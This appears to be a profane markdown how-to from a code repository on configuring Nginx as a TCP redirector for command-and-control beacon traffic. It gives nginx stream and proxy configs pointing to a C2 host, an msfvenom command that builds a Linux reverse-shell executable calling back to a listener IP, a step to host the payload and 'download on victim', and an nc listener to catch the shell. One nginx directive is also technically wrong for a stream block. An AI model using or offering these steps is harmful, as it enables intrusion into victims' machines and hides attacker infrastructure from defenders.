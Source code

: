 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}`
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect _time"';
    
        server {
            listen 8080;

            proxy_pass http://<Parrot-IP>;

            access_log /var/log/nginx/tcp_access.log;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
5. Now lets reload Nginx with the new conf figles 
    ```bash 
    sudo nginx -s reload
    ```
    or 
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.178.132 LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using poshc2 for you bind port, probably 
7. Host your payload however and download on victim 
8. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp
    ```
9.  tada you have a beacon shelley, fuck you.